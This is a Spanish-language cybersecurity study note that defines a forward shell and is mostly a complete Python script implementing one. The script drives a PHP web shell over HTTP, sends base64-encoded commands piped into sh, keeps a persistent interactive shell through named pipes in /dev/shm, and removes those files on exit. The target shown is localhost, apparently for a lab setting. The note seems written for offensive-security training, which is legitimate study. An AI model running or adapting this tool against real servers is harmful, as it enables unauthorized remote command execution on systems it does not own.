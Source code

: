 ____

- Tags: #forward-shell #explotación #enumeración #scripting #redes #ipv4 

___
# Definición 

Una "**Forward Shell**" es una técnica utilizada en ciberseguridad que permite a un atacante ejecutar comandos en una máquina remota a través de una conexión de red. A diferencia de una "[[Reverse Shell]]", donde la máquina víctima se conecta al atacante, en una **Forward Shell**, la máquina atacante envía comandos a la máquina objetivo y recibe las respuestas correspondientes.

Esta técnica puede implementarse de diversas maneras, y una de ellas es mediante el uso de scripts en lenguajes de programación como Python. Dichos scripts utilizan solicitudes [[HTTP]] para la comunicación entre las máquinas y permiten al atacante ejecutar comandos de forma remota.

___
# Ejemplo de Forward Shell en Python:

El siguiente script Python ilustra una implementación básica de una [[Forward Shell]]. Este script utiliza peticiones [[HTTP]] para enviar comandos desde la máquina atacante a la máquina víctima y recibir la salida correspondiente.

```python

#!/usr/bin/python3

import requests, time, threading, pdb, signal, sys
from base64 import b64encode
from random import randrange

class AllTheReads(object):
	def __init__(self, interval=1):
		self.interval = interval
		thread = threading.Thread(target=self.run, args=())
		thread.daemon = True
		thread.start()

	def run(self):
		readoutput = """/bin/cat %s""" % (stdout)
		clearoutput = """echo '' > %s""" % (stdout)
		while True:
			output = RunCmd(readoutput)
			if output:
				RunCmd(clearoutput)
				print(output)
			time.sleep(self.interval)

def RunCmd(cmd):
	cmd = cmd.encode('utf-8')
	cmd = b64encode(cmd).decode('utf-8')
	payload = {
        	'cmd' : 'echo "%s" | base64 -d | sh' %(cmd)
		}
	result = (requests.get('http://127.0.0.1/index.php', params=payload, timeout=5).text).strip()
	return result

def WriteCmd(cmd):
	cmd = cmd.encode('utf-8')
	cmd = b64encode(cmd).decode('utf-8')
	payload = {
		'cmd' : 'echo "%s" | base64 -d > %s' % (cmd, stdin)
	}
	result = (requests.get('http://127.0.0.1/index.php', params=payload, timeout=5).text).strip()
	return result

def ReadCmd():
        GetOutput = """/bin/cat %s""" % (stdout)
        output = RunCmd(GetOutput)
        return output

def SetupShell():
NamedPipes = """mkfifo %s; tail -f %s | /bin/sh 2>&1 > %s""" % (stdin, stdin, stdout)
	try:
		RunCmd(NamedPipes)
	except:
		None
	return None

global stdin, stdout
session = randrange(1000, 9999)
stdin = "/dev/shm/input.%s" % (session)
stdout = "/dev/shm/output.%s" % (session)
erasestdin = """/bin/rm %s""" % (stdin)
erasestdout = """/bin/rm %s""" % (stdout)

SetupShell()

ReadingTheThings = AllTheReads()

def sig_handler(sig, frame):
	print("\n\n[*] Exiting...\n")
	print("[*] Removing files...\n")
	RunCmd(erasestdin)
	RunCmd(erasestdout)
	print("[*] All files have been deleted\n")
	sys.exit(0)

signal.signal(signal.SIGINT, sig_handler)

while True:
	cmd = input("> ")
	WriteCmd(cmd + "\n")
	time.sleep(1.1)

```

